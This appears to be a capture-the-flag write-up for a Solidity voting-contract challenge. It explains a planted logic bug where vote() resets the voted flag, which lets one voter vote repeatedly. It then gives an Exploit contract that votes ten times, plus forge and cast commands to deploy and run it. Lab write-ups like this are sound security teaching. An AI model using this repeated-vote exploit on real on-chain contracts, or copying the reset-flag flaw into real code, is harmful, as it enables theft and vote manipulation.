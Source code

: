 This is some sort of voting, but it seems something is just not right? Well, let's see what the condition of *Setup.sol::isSolved()* &nbsp;  
&nbsp;  

```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Participants.sol";

contract Setup{
    PrizePoolBattle public immutable prizepool;
    Participant1 public immutable participant1;
    Participant2 public immutable participant2;
    Participant3 public immutable participant3;

    constructor() payable{
        require(msg.value >= 9 ether, "Need 9 ether to start challenge");
        prizepool = new PrizePoolBattle();
        participant1 = new Participant1{value: 5 ether}(address(prizepool));
        participant2 = new Participant2{value: 1 ether}(address(prizepool));
        participant3 = new Participant3{value: 3 ether}(address(prizepool));
    }

    function isSolved() public view returns(bool){
        (, uint winner) = prizepool.getWinner();
        return winner == 1;
    }

}
``` 
&nbsp;  

Well, the *isSolved()* function only returns true if the winner is the 1st party, we have to look into the *PrizePool Contract* to figure this out, but now let's analyze the constructor. It first deploy the *Prizepool Contract*, and another 3 participans with each 5, 1 and 3 Ether, now that we know that the initial setup is, let's see what the *Participant Contract* is all about. &nbsp;  
&nbsp;  
```solidity
contract Participant1{
    PrizePoolBattle public immutable prizepool;

    constructor(address _target) payable{
        prizepool = PrizePoolBattle(_target);
        prizepool.addVoter{value: 5 ether}("Michelio");
        prizepool.vote(2);
    }
}
```
&nbsp;  
We are going to take a look at the first only since the other 2 are similar, it first call the *addVote()* with 5 Ether and "**Michelio**" as name I guess, and it votes for the 2nd Party, oh no our competitor it seems. Well let's see the real deal now, the *Prizepool Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract PrizePoolBattle{
    struct Candidate {
        uint id;
        string name;
        uint voteCount;
    }

    struct Voter {
        uint id;
        string name;
        uint256 weight;
        bool voted;
    }

    mapping(uint => Candidate) public candidates;
    mapping(uint => Voter) public voters;
    mapping(address => bool) public votersExist;
    mapping(address => uint) public votersID;
    uint public candidatesCount;
    uint public votersCount;
    uint public winner;
    bool public winnerDeclared = false;

    event Voted(address indexed voter, uint indexed candidateId);
    event Winner(uint indexed candidateId, string name);

    modifier checkWinner(uint _candidateId) {
        _;
        if (candidates[_candidateId].voteCount >= 10 ether) {
            winnerDeclared = true;
            winner = _candidateId;
            emit Winner(_candidateId, candidates[_candidateId].name);
        }
    }

    constructor() {
        addCandidate("ENUMA");
        addCandidate("ALPHA");
    }

    function addCandidate(string memory _name) internal {
        require(
            keccak256(abi.encodePacked(_name)) == keccak256(abi.encodePacked("ENUMA")) ||
            keccak256(abi.encodePacked(_name)) == keccak256(abi.encodePacked("ALPHA")),
            "Only ENUMA or ALPHA can be added as candidates"
        );
        candidatesCount++;
        candidates[candidatesCount] = Candidate(candidatesCount, _name, 0);
    }
}
```
&nbsp;  
Let's view it part by part to make it more understandable, the first part of course the constructor, when this contract is deployed, it immediately call the *addCandidate()* function, this function will add a new candidates based on the *Id* as we can see on the *Struct Candidate* on the first few line, the *candidateCounts()* is the one responsible for giving the *Id* and the party can only be either *ENUMA* or *ALPHA*. Based on the constructor, we know that *ENUMA* has the *Id* of 1 and *ALPHA* has the *Id* of 2. &nbsp;  
&nbsp;  
The Modifier *checkWinner()* will check at the end of a function run, if a candidate has a vote of 10, it will declare the *winner*. Let's continue to the rest of the functions &nbsp;  
&nbsp;  
```solidity
    function addVoter(string memory _name) public payable{
        require(!votersExist[msg.sender], "Voter has already been added.");
        votersCount++;
        uint256 weight = msg.value;
        voters[votersCount] = Voter(votersCount, _name, weight, false);
        votersID[msg.sender] = votersCount;
        votersExist[msg.sender] = true;
    }

    function vote(uint _candidateId) public checkWinner(_candidateId) {
        require(votersExist[msg.sender], "You are not an eligible voter.");
        require(!winnerDeclared, "The winner has already been declared.");
        require(_candidateId > 0 && _candidateId <= candidatesCount, "Invalid candidate ID.");
        uint id = votersID[msg.sender];
        require(voters[id].voted == false, "You already vote!");
        voters[id].voted = false;
        candidates[_candidateId].voteCount += voters[id].weight * 1;
        emit Voted(msg.sender, _candidateId);
    }

    function getCandidateVoteCount(uint _candidateId) public view returns (string memory name, uint voteCount) {
        Candidate storage candidate = candidates[_candidateId];
        return (candidate.name, candidate.voteCount);
    }

    function getWinner() public view returns(string memory name, uint id){
        Candidate storage candidate = candidates[winner];
        return (candidate.name, candidate.id);
    }
```
&nbsp;  
We got 4 functions here, the first one is *addVoter()*, this function seems to check whether someone is already registered or not and after that it will increate the *votersCount()* and push it to the struct of Voter. What we know here the weight of someone vote is determined by the money they put in, and at the end it ensures that we can only register once by changing the *votersExist()* to true. &nbsp;  
&nbsp;  
Next up is the *vote()* function, we can see that the modifier *checkWinner()* is implemented here, meaning this function will be the one that trigger the change, it first has 3 check, to check wheter the voter exist, check the if the winner has been selected and the one we voted to be either 1 or 2 only. We can see there it will get our Id and check whether we already vote or not by checking the the *voted* attribute on our struct if it's already *true*, but here is the strange thing, after the check instead of setting the *voted* to true, it reset us to *false*, meaning even if we have a very low weight, we can vote multiple times! Here is the Logic error bug! &nbsp;  
&nbsp;  
The next 2 function are only for getting the state of the vote count anytime and the winner if the winner is selected. So let's wrap up about what we have now. &nbsp;  
&nbsp;  

- Party Number 2 (*ALPHA*) has 9 Votes already (5 + 1 +3) from other Participants
- Party Number 1 (*ENUMA*) has 0 Vote
- We only have 1.2 Ether (based on *cast balance*)
- We have a logic error where we can vote unlimitedly. &nbsp;  
&nbsp;  

We have 2 choices here, we can do it manually by registering via *addVoter()* and send the vote 10 times, or we can make a Smart contract that does that. In this approach I'm going to create a Smart Contract that does just that, and here is the code &nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Setup.sol";

contract Exploit{
    Setup public setup;
    PrizePoolBattle public pp;

    constructor(address payable _setup) payable{
        setup = Setup(_setup);
        pp = PrizePoolBattle(address(setup.prizepool()));
    }

    function exploit() public {
        pp.addVoter{value: 1 ether}("Louis");
        for(uint a = 0 ; a < 10 ; a++){
            pp.vote(1);
        }
    }

}
```
&nbsp;  
Here is how we can deploy our Exploit contract and solve the lab &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit
forge create src/voting-frenzy/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --construcot-args $SETUP_ADDR --value 1ether

// Exploit the Contract
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Running the command above, you should've exploited the contract and get your flag.